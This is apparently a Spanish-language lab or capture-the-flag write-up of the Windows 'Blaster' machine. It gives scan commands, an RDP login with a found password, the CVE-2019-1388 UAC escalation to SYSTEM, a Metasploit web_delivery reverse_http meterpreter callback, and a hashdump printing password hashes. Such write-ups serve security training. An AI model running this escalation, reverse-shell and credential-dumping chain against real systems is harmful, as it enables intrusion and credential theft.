

---
layout: default
---

# Máquina BLASTER

## Fase 1: Reconocimiento (Blaster / RetroWeb)

### 1) Escaneo de puertos y servicios

Comando ejecutado:

```bash
sudo nmap -p- --open -sS -Pn -sV -sC --min-rate 5000 10.82.149.222
```

Resultado de Nmap: puertos 80/tcp y 3389/tcp abiertos.



### 2) Análisis de servicios identificados

- Puerto 80 (HTTP): se detectó un servidor web `Microsoft IIS httpd 10.0`. El título de la página es `IIS Windows Server`. Esto indica que el siguiente paso es la enumeración web para buscar directorios ocultos.
- Puerto 3389 (RDP): el servicio `ms-wbt-server` está activo. Los scripts de Nmap revelan que el nombre del equipo es `RETROWEB` y corre una versión de `Windows 10` (Product Version 10.0.14393).

## Fase 3: Análisis de la superficie (Punto de intrusión)

1. Navegación: entra en tu navegador a `http://10.82.149.222/retro`.
2. Objetivo: busca un blog. Revisa los posts y los comentarios.
3. Hallazgo de usuario: en los exámenes de Windows, los autores de los posts suelen ser el nombre de usuario del sistema.
    - Pista: busca un usuario llamado **Wade**.


1. Hallazgo de contraseña: revisa los comentarios antiguos o posts "ocultos". Los usuarios suelen dejar pistas de sus contraseñas en sus propios blogs.
- Pista: busca una referencia a una contraseña que mencione algo de "parzival".


### Acceso por RDP

 El escritorio de Windows cargando tras usar `xfreerdp`.

Comando:

```bash
xfreerdp /v:10.82.149.222 /u:wade /p:perzival /dynamic-resolution +clipboard
```


Imagen de que hemos accedido al escritorio del cliente Wade.


## Fase 4: Escalada de privilegios (CVE-2019-1388)

### 1) Punto de partida

Ya tienes una sesión inicial y has accedido por RDP. Has ejecutado un binario con privilegios (como el instalador `hhupd.exe`).

### 2) Ejecución del exploit (manual)

Sigue estos pasos dentro de la ventana de UAC:

1. En la ventana de UAC, haz clic en "Show more details".
2. Haz clic en el enlace del certificado: "Show information about the publisher's certificate".
3. Se abrirá una nueva ventana. Busca el enlace azul que dice "Verisign Commercial Software Publishers CA".


### 3) Salto a SYSTEM vía Internet Explorer

1. Al hacer clic en el enlace de Verisign, el sistema intentará abrir el navegador (Internet Explorer) con privilegios de SYSTEM.
2. Una vez abierto el navegador: Ctrl + S para guardar el archivo.
3. En la ventana que se abre para guardar el archivo, en la barra de ruta inferior (File name), escribe:

```bash
C:\Windows\System32\cmd.exe
```

1. Pulsa la tecla ENTER.


### Generación del payload (Metasploit)

En tu terminal de Kali, dentro de `msfconsole`, configuraste un servidor web temporal que "sirve" el código malicioso. Estos son los comandos:

1) Selección del módulo:

```bash
use exploit/multi/script/web_delivery
```

Este módulo es ideal porque no escribe archivos en el disco (Fileless), lo que ayuda a evadir antivirus.


2) Configuración del objetivo (Target):

```bash
set target 2
```

El "Target 2" le dice a Metasploit que queremos un comando específico para PowerShell.

3) Configuración del payload:

```bash
set payload windows/meterpreter/reverse_http
set LHOST tun0
set LPORT 9998
```

Aquí defines que la víctima debe conectarse de vuelta a tu IP (`tun0`) por el puerto 9998 usando el protocolo HTTP.

4) Lanzamiento:

```bash
run -j
```


Mientras en Windows debemos de introducir el Base64, una vez hecho obtendremos la sesion de meterpreter abierta.


### 1) Migración de proceso para estabilidad

La sesión inicial corría en un proceso de 32 bits (`x86`). Para interactuar correctamente con la memoria del sistema de 64 bits y utilizar herramientas como Kiwi, se realizó una migración al proceso `winlogon.exe` (PID 4080), el cual corre como `SYSTEM` y es un proceso crítico de Windows.

```bash
migrate 4080
```


### 2) Intento de extracción en memoria (Mimikatz/Kiwi)

Utilizamos la extensión Kiwi (la versión actualizada de Mimikatz en Metasploit) para intentar recuperar contraseñas en texto plano.


### 3) Volcado de la base de datos SAM (Hashdump)

Para obtener los hashes de forma definitiva y persistente, ejecutamos el comando `hashdump` (image_cbf9bd.png). Este comando extrae el contenido del archivo SAM (Security Account Manager) del registro de Windows.

Hashes extraídos:

- Administrator: `568a741b56c79622cc3f4c83720bf45e`
- Wade: `df7afd9a9896bd3f5faf10b8e56e0adf`


Obtenemos la contraseña de Wade que es perzival.


Por ultimo hacemos una comprobacion de que estamos en la cima de la escalada de privilegios.


